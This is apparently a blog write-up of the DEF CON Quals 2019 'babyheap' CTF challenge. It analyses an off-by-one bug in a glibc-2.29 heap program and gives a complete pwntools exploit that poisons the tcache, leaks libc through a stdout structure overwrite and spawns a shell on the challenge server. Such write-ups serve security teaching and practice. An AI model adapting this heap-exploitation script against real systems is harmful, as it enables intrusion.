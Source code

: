 ```yaml
---
title: DCQ2019_babyheap
date: 2019-05-14 09:50:37
tags: tcache glibc-2.29
---
```


比赛期间在运维本校比赛就没咋做...speedrun了一些...感觉还没有做到ooo的精华部分.只做了些热身
<!--more-->
# babyheap
An interesting challenge about off_by_one on glibc-2.29
# Analysis
* checksec
```sh
➜  Desktop checksec DCQ/babyheap 
[*] '/home/n132/Desktop/DCQ/babyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```
`off_by_one`:
```arm
  while ( buf != 10 && buf )
  {
    *(_BYTE *)(v4->ptr + v3) = buf;
    read(0, &buf, 1uLL);
    if ( size == v3 )
      return 0LL;
    ++v3;
  }
```
some restricting:
* two choices of chunk_size
```arm
if ( (unsigned int)size <= 0xF8 )
    list[i].ptr = (__int64)malloc(0xF8uLL);
  else
    list[i].ptr = (__int64)malloc(0x178uLL);
```
* 10 ptr
```arm
 if ( list[0].ptr )
  {
    v0 = &unk_555555558070;
    for ( i = 1; ; ++i )
    {
      v0 += 2;
      if ( !*(v0 - 2) )
        break;
    }
    if ( i > 9 )
      return 4294967293LL;
  }
  else
  {
    i = 0;
  }
```
# Solution

* off_by_one to modify the next_chunk_head 
* free next chunk 
* call malloc and reset the fd of the next chunk
example:
```python
add()#0
add()#1
add()#2
free(0)
add(0xf8,"A"*0xf8+'\x81')
free(1)
add(0x1f8,"A"*0x100+'pattial_write')
```

# example
```python
from pwn import *
def cmd(c):
	p.sendlineafter("> ",str(c))
def add(size,c):
	cmd('M')
	cmd(size)
	p.sendlineafter("tent:\n> ",c)
def free(idx):
	cmd('F')
	p.sendlineafter("> \n",str(idx))
def Free(idx):
	cmd('F')
	p.sendlineafter("> ",str(idx))
def show(idx):
	cmd('S')
	cmd(idx)
#context.log_level='debug'
#p=process("./babyheap")
p=remote('babyheap.quals2019.oooverflow.io', 5000)

add(0xf7,"A"*0xf8)#0
add(0xf7,"A"*0xf8)#1
add(0xf7,"A"*0xf8)#2
free(0)
add(0xf8,"/bin/sh;".ljust(0xf8,"A")+"\x81")#0 off by one chun 1
for x in range(7):
	add(0xf7,'A')
free(9)
free(3)
free(2)
free(4)
free(5)
free(6)
free(7)
free(1)
free(8)

for x in range(4):
	add(0xf7,"A")# 1-4 
add(0x178,"A"*0x100+'\x60\x9a')#5

free(1)
free(2)
add(0xf8,'A'*0xf8+'\x81')#1
add(0xf8,"A")#2
free(2)

# 26789 ==nul
# IO_leak
add(0x178,'A'*0x100+'\x50\x17')#2
add(0x78,"/bin/sh")#6
add(0x78,"/bin/sh")#7
add(0x78,"A"*0x10+p64(0xfffffffffbad1880)+'\x01'*0x18+'\x01')#8
p.read(7)
base=u64(p.read(8))-(0x7ffff7fb3570-0x7ffff7dcc000)
log.warning(hex(base))
# LEAK over

Free(5)# 59
add(0x178,'A'*0xf8+'\x01\x01')#5

Free(6)
Free(5)
add(0x178,"A"*0x100+p64(base+0x7ffff7fb35a8-0x7ffff7dcc000)[:6])

Free(2)
add(0xf8,"A")
Free(5)
add(0xf8,p64(base+0x106ef8)[:6])
#gdb.attach(p,'')
Free(0)
context.log_level='debug'
p.sendline("cat flag")
raw_input()

p.interactive()
```